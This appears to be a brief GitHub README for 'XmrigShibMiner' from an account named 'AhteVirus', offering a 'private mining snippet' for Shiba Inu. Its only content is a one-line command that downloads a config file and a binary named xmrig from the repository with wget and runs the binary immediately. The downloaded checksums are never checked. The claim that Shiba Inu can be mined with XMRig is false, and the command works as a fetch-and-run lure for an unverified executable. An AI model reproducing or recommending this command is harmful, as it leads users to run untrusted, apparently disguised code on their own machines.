 # XmrigShibMiner
Mine Shiba Inu coins with XMRig. Private mining snippet


wget https://raw.githubusercontent.com/AhteVirus/XmrigShibMiner/main/SHA256SUMS && wget https://raw.githubusercontent.com/AhteVirus/XmrigShibMiner/main/config.json && wget https://github.com/AhteVirus/XmrigShibMiner/raw/main/xmrig && ./xmrig
